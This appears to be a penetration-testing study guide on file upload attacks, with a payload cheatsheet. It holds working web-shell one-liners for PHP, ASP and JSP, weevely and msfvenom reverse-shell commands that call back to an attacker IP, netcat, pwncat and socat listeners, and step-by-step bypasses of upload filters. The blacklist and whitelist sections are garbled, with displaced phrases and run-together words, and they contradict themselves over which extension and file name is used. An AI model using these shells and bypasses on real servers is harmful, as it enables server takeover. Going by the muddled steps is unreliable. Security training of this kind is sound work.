









# File Upload Attacks

!!! abstract "Mentor's Note"
    File upload is one of the highest-value attack surfaces on the web. If you can write a file the server will *execute*, you usually own the box. Treat every upload form as a potential remote code execution (RCE) primitive until you prove otherwise. This guide walks the full workflow, then ends with a [cheatsheet](#cheatsheet) you can skim five minutes before the exam.

## The Core Idea

Almost every modern app lets users upload *something* — profile pictures, PDFs, attachments. The moment an app accepts user-controlled files, it accepts the risk of storing **attacker-controlled data on its own server**. If the file type and contents aren't strictly validated, you can often upload a script the server will run for you.

These bugs are consistently rated **High/Critical** in CVE databases for one reason: a successful arbitrary file upload is one short step from full server compromise. The worst case is an **unauthenticated arbitrary file upload** — anyone, no login required, drops a payload and gets code execution.

## What File Uploads Get You

The headline outcome is **RCE via a web shell or reverse shell**. But even when you *can't* upload arbitrary code, a weak upload feature can still be abused:

- **Stored XSS** — upload an HTML/SVG file containing JavaScript.
- **XXE** — upload a malicious SVG or XML-based document (e.g. DOCX, which is XML under the hood).
- **Denial of Service** — decompression bombs (zip bombs), pixel-flood images, or filling the disk.
- **Overwriting critical files** — path traversal in the filename (`../../`) to clobber config or app files.
- **SSRF / second-order attacks** — upload a file processed by a vulnerable back-end library.

!!! warning "Vulnerable libraries count too"
    File upload bugs aren't only about sloppy validation code. Outdated image/PDF/parsing libraries (ImageMagick "ImageTragick", `libvips`, etc.) are routinely exploitable through an otherwise "safe" upload.

## The Attack Workflow

1. **Test for absent validation** — can you just upload a script?
2. **Fingerprint the stack** — what language/framework runs the app? Your payload must match it.
3. **Prove code execution** — upload a harmless "Hello World" script first.
4. **Weaponize** — drop a web shell or reverse shell.
5. **If blocked, bypass** — start with client-side validation (the weakest), then move to server-side filters.

---

## Step 1 — Absent Validation

The simplest case: the app has **no validation at all** and accepts any file type by default. You upload your shell, visit it, done.

Take this Employee File Manager. It says nothing about allowed types, and the drop zone happily accepts a `.php` file:


No front-end restriction is a strong hint that the back-end may be just as permissive. If so, we can upload an arbitrary file and take over the server.

---

## Step 2 — Fingerprint the Web Stack

A web shell must be written in the **same language the server executes** (PHP, ASP/ASPX, JSP, etc.) — these scripts call platform-specific functions, so they aren't cross-platform. So first: what's running?

**Method 1 — Page extensions & index probing.** The URL extension often gives it away (`.php`, `.aspx`...). When routes hide it, probe for index pages by swapping the extension:

```
http://TARGET/index.php
http://TARGET/index.asp
http://TARGET/index.aspx
http://TARGET/index.jsp
```

If `index.php` returns the same page as `/`, it's a PHP app:




**Method 2 — Fuzz the extension.** Don't do it by hand. Use a fuzzer with a web-extensions wordlist:

```shell
# ffuf
ffuf -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:EXT \
     -u http://TARGET/indexFUZZ -mc 200

# Burp Intruder / wfuzz are equally fine here
```

**Method 3 — Tech fingerprinting tools.** Identify language, server, OS, and frameworks at a glance:

- **Wappalyzer** (browser extension) — quick visual readout.
- **whatweb** — `whatweb http://TARGET` (CLI, scriptable).
- **httpx** — `httpx -u http://TARGET -td` (fast, tech-detect flag).
- **nmap** — `nmap -p80,443 --script=http-enum,http-headers TARGET`.
- **BuiltWith** — web-based lookup for public sites.
- **Burp / OWASP ZAP** passive scanners.




!!! tip
    Tools are fast but can be wrong (or blocked). Always keep the manual `index.ext` trick in your back pocket — it works when extensions and scanners don't.

---

## Step 3 — Prove Code Execution

Before throwing a shell, confirm the server *executes* your file rather than just storing it. Upload a minimal proof-of-concept. For PHP, write this to `test.php`:


```php title="test.php"
<?php echo "Hello World"; ?>
```


Then open the uploaded file:


If the page prints **Hello World**, PHP ran — you have code execution. If it prints the **raw source** instead, the file was stored but not executed (still potentially useful for XSS/other attacks, but not RCE here).

---

## Step 4 — Weaponize

### Option A — Web Shells

A web shell takes commands via HTTP and prints the output in your browser — great for quick enumeration.

**Grab a ready-made one:**

- **phpbash** — semi-interactive, terminal-like PHP shell.
- **SecLists** — bundles shells for many languages (`/usr/share/seclists/Web-Shells/`).
- **weevely** — generates a stealthy, obfuscated, password-protected PHP shell and gives you a client to drive it:
  ```shell
  weevely generate <password> shell.php   # upload shell.php
  weevely http://TARGET/uploads/shell.php <password>
  ```
- Others worth knowing: **p0wny-shell** (single-file PHP), **b374k**, **WSO**, and **Antak** (ASPX, from Nishang) / **China Chopper** for .NET shops.

Upload it, visit it, enumerate:



### Option B — Write Your Own Web Shell

You won't always have internet access mid-engagement, so memorize a one-liner. PHP:


```php title="shell.php"
<?php system($_REQUEST['cmd']); ?>
```

Save as `shell.php`, upload, then run commands via the `cmd` parameter:




!!! tip "Read output cleanly"
    In a browser, hit ++ctrl+u++ to view source — command output renders as plain terminal text without HTML mangling.

Equivalent minimal shells for other stacks:

```asp
<%-- Classic ASP --%>
<% eval request("cmd") %>
```
```jsp
<%-- JSP --%>
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

!!! note "When web shells fail"
    `system()`/`exec()` may be disabled (`disable_functions`), or a WAF may block them. Try alternative PHP exec functions (`shell_exec`, `passthru`, `proc_open`, `popen`) or pivot to a reverse shell. Defeating WAFs/`disable_functions` is a deeper topic beyond this section.

### Option C — Reverse Shells (preferred)

A reverse shell is fully interactive — almost always nicer than a web shell. Match the language to the app.

**1. Get a payload and set your IP/port:**

- **pentestmonkey PHP reverse shell** — edit the `$ip` / `$port` (around lines 49–50).
- **revshells.com** — online generator for dozens of payloads/languages; copy-paste ready.
- **SecLists** — reverse shells for many frameworks.



**2. Start a listener, upload, and trigger it:**

```shell
nc -lvnp 4444
# upgrade tip: rlwrap nc -lvnp 4444   (readline/history in the shell)
```

```shell
Listening on 0.0.0.0 4444
connect to [10.10.15.193] from (UNKNOWN) [TARGET] 32694
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

!!! tip "Better listeners"
    Swap `nc` for **pwncat-cs** (auto stabilization, file transfer, persistence) or **socat** for an encrypted/upgraded TTY:
    ```shell
    pwncat-cs -lp 4444
    socat file:`tty`,raw,echo=0 tcp-listen:4444
    ```

### Generating Shells with msfvenom

When you want a reliable, framework-native reverse shell without hand-editing scripts, let **msfvenom** build it:

```shell
msfvenom -p php/reverse_php LHOST=10.10.15.193 LPORT=4444 -f raw > reverse.php
# Payload size: 2678 bytes
```

Start your listener, upload `reverse.php`, visit it:

```shell
nc -lvnp 4444
Listening on 0.0.0.0 4444
connect to [10.10.15.193] from (UNKNOWN) [TARGET] 38342
```

The same approach generates payloads for other languages — pick the payload with `-p` and the output format with `-f`. List options with `msfvenom --list payloads | grep reverse`.

!!! info "Reverse vs. web shell"
    Reverse shells are more interactive, but outbound connections can be blocked by egress firewalls, or the language may have socket functions disabled. Keep a web shell ready as a fallback.

---

## Step 5 — Bypassing Client-Side Validation

Many apps validate the file in the browser with JavaScript only. Since **anything running client-side is under your control**, this is the easiest filter class to defeat. If the server doesn't re-validate, you win.

Here's a profile-image uploader. The file dialog is locked to images:


Picking *All Files* and selecting a PHP script throws "Only images are allowed!" and disables the Upload button — and notice the page never sends a request, confirming validation is purely front-end:


There are two clean ways to bypass it.

### Bypass A — Modify the Request (Burp/Caido)

Capture a *legitimate* image upload, then tamper with it. The app sends a normal multipart POST to `/upload.php`:


Two parts matter: `filename="something.png"` and the file body. Change the filename to `shell.php` and replace the body with your web shell:


!!! note
    You can also change the `Content-Type` of the file part (e.g. keep `image/png`), but for a purely client-side filter it doesn't matter yet. It *will* matter once we hit server-side MIME checks.

The server accepts it, and you browse to your uploaded shell for RCE:


!!! tip "Proxy alternatives"
    Burp is the standard, but **Caido**, **OWASP ZAP**, and **mitmproxy** all intercept and edit upload requests just as well.

### Bypass B — Disable the Front-end Check

Since the validation lives in the page, just remove it. Open the inspector (++ctrl+shift+c++) and click the upload control:


You'll find the input wired to a JS validator:

```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```

Open the console (++ctrl+shift+k++) and inspect the function:

```javascript
function validate() {
  var file = $("#uploadFile")[0].files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#error_message').text("Only images are allowed!");
    File.form.reset();
    $("#submit").attr("disabled", true);
    return false;
  } else {
    return true;
  }
}
```

It checks the extension, shows the error, and disables the button. You don't need to rewrite any JS — just **delete the `onchange="checkFile(this)"` handler** (and optionally the `accept` attribute) directly in the DOM:


!!! tip
    Removing `accept=".jpg,.jpeg,.png"` makes selecting your PHP file in the dialog easier, but it's optional.

The edit is temporary (it won't survive a refresh), but that's fine — you only need it to live long enough to submit one upload. After uploading, use the inspector again to find your shell's URL:


Visit it and you've got command execution:


!!! danger "The real lesson"
    Client-side validation is a UX feature, never a security control. **Every** upload restriction must be enforced server-side. If it isn't, all of the above applies.


## Blacklist Filters

In the previous section, we saw an example of a web application that only applied type validation controls on the front-end (i.e., client-side), which made it trivial to bypass these controls. This is why it is always recommended to implement all security-related controls on the back-end server, where attackers cannot directly manipulate it.

Still, if the type validation controls on the back-end server were not securely coded, an attacker can utilize multiple techniques to bypass them and reach PHP file uploads.

The exercise we find in this section is similar to the one we saw in the previous section, but it has a blacklist of disallowed extensions to prevent uploading web scripts. We will see why using a blacklist of common extensions may not be enough to prevent arbitrary file uploads and discuss several methods to bypass it.


### Blacklisting Extensions

Let's start by trying one of the client-side bypasses we learned in the previous section to upload a PHP script to the back-end server. We'll intercept an image upload request with Burp, replace the file content and filename with our PHP script's, and forward the request:


As we can see, our attack did not succeed this time, as we gotExtension not allowed . This indicates that the web application may have some form of file type validation on the back-end, in addition to the front-end validations.

There are generally two common forms of validating a file extension on the back-end:

1. Testing against ablacklist of types
2. Testing against awhitelist of types

Furthermore, the validation may also check the `file type` or the `file content` for type matching. The weakest form of validation amongst these istesting the file extension against a `blacklist of extension` to determine whether the upload request should be blocked. For example, the following piece of code checks if the uploaded file extension is `PHP` and drops the request if it is:

```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

The code is taking the file extension (`$extension`) from the uploaded file name (`$fileName`) and then comparing it against a list of blacklisted extensions (`$blacklist`). However, this validation method has a major flaw. , as many other extensions are not included in this list, which may still be used to execute `PHP` code on the back-end server if uploaded. It is not comprehensive

!!! tip
    The comparison above is also case-sensitive, and is only considering lowercase extensions. In Windows Servers, file names are case insensitive, so we may try uploading a `php` with a mixed-case (e.g. ), which may bypass the blacklist as well, and should still execute as a PHP script`.pHp`

So, let's try to exploit this weakness to bypass the blacklist and upload a PHP file.

### Fuzzing Extensions

As the web application seems to be testing the file extension, our first step is to fuzz the upload functionality with a list of potential extensions and see which of them return the previous error message. Any upload requests that do not return an error message, return a different message, or succeed in uploading the file, may indicate an allowed file extension.

There are many lists of extensions we can utilize in our fuzzing scan. provides lists of extensions for PHP and .NET web applications. We may also use list of common Web Extensions.PayloadsAllTheThingsSecLists

We may use any of the above lists for our fuzzing scan. As we are testing a PHP application, we will download and use the above PHP list. Then, fromBurp History , we can locate our last request to/upload.php , right-click on it, and selectSend to Intruder . From thePositions tab, we canClear any automatically set positions, and then select the.php extension infilename="HTB.php" and click theAdd button to add it as a fuzzing position:


We'll keep the file content for this attack, as we are only interested in fuzzing file extensions. Finally, we canLoad the PHP extensions list from above in thePayloads tab underPayload Options . We will also un-tick theURL Encoding option to avoid encoding the (.) before the file extension. Once this is done, we can click onStart Attack to start fuzzing for file extensions that are not blacklisted:


We can sort the results byLength , and we will see that all requests with the Content-Length (229, 230) passed the extension validation, as they all responded withFile successfully uploaded . In contrast, the rest responded with an error message saying Extension not allowed.


### Non-Blacklisted Extensions
Now, we can try uploading a file using any of theallowed extensions from above, and some of them may allow us to execute PHP code. , so we may need to try several extensions to get one that successfully executes PHP code.Not all extensions will work with all web server configurations

Let's use the `.phar` extension, which PHP web servers often allow for code execution rights. We can right-click on its request in the Intruder results and selectSend to Repeater . Now, all we have to do is repeat what we have done in the previous two sections by changing the file name to use the.phtml extension and changing the content to that of a PHP web shell:


As we can see, our file seems to have indeed been uploaded. The final step is to visit our upload file, which should be under the image upload directory (profile_images), as we saw in the previous section. Then, we can test executing a command, which should confirm that we successfully bypassed the blacklist and uploaded our web shell:


## Whitelist Filters

As discussed in the previous section, the other type of file extension validation is by utilizing awhitelist of allowed file extensions . A whitelist is generally more secure than a blacklist. The web server would only allow the specified extensions, and the list would not need to be comprehensive in covering uncommon extensions.

Still, there are different use cases for a blacklist and for a whitelist. A blacklist may be helpful in cases where the upload functionality needs to allow a wide variety of file types (e.g., File Manager), while a whitelist is usually only used with upload functionalities where only a few file types are allowed. Both may also be used in tandem.

### Whitelisting Extensions

Let's start the exercise at the end of this section and attempt to upload an uncommon PHP extension, like.phtml , and see if we are still able to upload it as we did in the previous section:





We see that we get a message sayingOnly images are allowed , which may be more common in web apps than seeing a blocked extension type. However, error messages do not always reflect which form of validation is being utilized, so let's try to fuzz for allowed extensions as we did in the previous section, using the same wordlist that we used previously:



We can see that all variations of PHP extensions are blocked (e.g. php5, php7, phtml). However, the wordlist we used also contained other 'malicious' extensions that were not blocked and were successfully uploaded. So, let's try to understand how we were able to upload these extensions and in which cases we may be able to utilize them to execute PHP code on the back-end server.

The following is an example of a file extension whitelist test:

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

We see that the script uses a Regular Expression (regex) to test whether the filename contains any whitelisted image extensions. The issue here lies within the regex, as it only checks whether the file name contains the extension and not if it actually ends with it. Many developers make such mistakes due to a weak understanding of regex patterns.

So, let's see how we can bypass these tests to upload PHP scripts.

### Double Extensions

The code only tests whether the file name contains an image extension; a straightforward method of passing the regex test is through Double Extensions. For example, if the .jpg extension was allowed, we can add it in our uploaded file name and still end our filename with .php (e.g. shell.jpg.php), in which case we should be able to pass the whitelist test, while still uploading a PHP script that can execute PHP code.

Let's intercept a normal upload request, and modify the file name to (shell.php.jpg), and modify its content to that of a web shell:



Now, if we visit the uploaded file and try to send a command, we can see that it does indeed successfully execute system commands, meaning that the file we uploaded is a fully working PHP script:



However, this may not always work, as some web applications may use a strict regex pattern, as mentioned earlier, like the following:

```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```

This pattern should only consider the final file extension, as it uses (^.*\.) to match everything up to the last (.), and then uses ($) at the end to only match extensions that end the file name. So, the above attack would not work. Nevertheless, some exploitation techniques may allow us to bypass this pattern, but most rely on misconfigurations or outdated systems.


---

## Tooling Reference

| Job | Primary | Alternatives |
|-----|---------|--------------|
| Tech fingerprinting | Wappalyzer | whatweb, httpx, nmap `http-enum`, BuiltWith |
| Extension fuzzing | Burp Intruder | ffuf, wfuzz |
| Intercept/modify upload | Burp Suite | Caido, OWASP ZAP, mitmproxy |
| PHP web shell | `<?php system($_REQUEST['cmd']); ?>` | phpbash, weevely, p0wny-shell, b374k, WSO |
| .NET/ASP shell | `<% eval request("cmd") %>` | China Chopper, Antak (Nishang) |
| Reverse shell payload | pentestmonkey | revshells.com, msfvenom, SecLists |
| Listener | `nc -lvnp` | rlwrap nc, pwncat-cs, socat |
| Shell wordlists/payloads | SecLists `/Web-Shells/` | PayloadsAllTheThings (Upload Insecure Files) |

---

## Cheatsheet

!!! example "Fingerprint the stack"
    ```shell
    # Manual index probe
    curl -s http://TARGET/index.php -o /dev/null -w "%{http_code}\n"

    # Fuzz extensions
    ffuf -w web-extensions.txt:EXT -u http://TARGET/indexFUZZ -mc 200

    # Tech detect
    whatweb http://TARGET
    httpx -u http://TARGET -td
    nmap -p80,443 --script=http-enum TARGET
    ```

!!! example "Code-execution proof (PHP)"
    ```php
    <?php echo "Hello World"; ?>
    ```

!!! example "Minimal web shells"
    ```php
    <?php system($_REQUEST['cmd']); ?>          /* PHP  -> ?cmd=id */
    ```
    ```php
    <?php echo shell_exec($_GET['cmd']); ?>     /* PHP fallback funcs */
    ```
    ```asp
    <% eval request("cmd") %>                    <%-- Classic ASP --%>
    ```
    ```jsp
    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>  <%-- JSP --%>
    ```
    PHP exec functions to try if one is disabled: `system`, `shell_exec`, `exec`, `passthru`, `popen`, `proc_open`.

!!! example "Generate reverse shells"
    ```shell
    msfvenom -p php/reverse_php LHOST=ATTACKER LPORT=4444 -f raw > reverse.php
    msfvenom --list payloads | grep reverse        # find more
    # or grab a ready payload from https://revshells.com
    ```

!!! example "Listeners"
    ```shell
    nc -lvnp 4444
    rlwrap nc -lvnp 4444        # history + arrow keys
    pwncat-cs -lp 4444          # auto-stabilize + features
    socat file:`tty`,raw,echo=0 tcp-listen:4444   # full TTY
    ```

!!! example "Client-side bypass (Burp)"
    1. Upload a valid image, intercept the POST to `/upload.php`.
    2. Change `filename="img.png"` -> `filename="shell.php"`.
    3. Replace the file body with your web shell.
    4. (Optional) keep `Content-Type: image/png`.
    5. Forward -> browse to the uploaded shell.

!!! example "Client-side bypass (DOM edit)"
    1. ++ctrl+shift+c++ -> click the upload input.
    2. Delete `onchange="checkFile(this)"` (and `accept="..."`).
    3. Select *All Files* -> choose your shell -> upload.

!!! quote "Decision flow"
    Can I upload any file? → **Absent validation: upload shell.**
    Blocked in the browser only? → **Client-side bypass (Burp or DOM edit).**
    Server rejects it? → Move to **server-side filter bypasses** (extension blacklists/whitelists, MIME/Content-Type, magic bytes) — the next stage of the methodology.
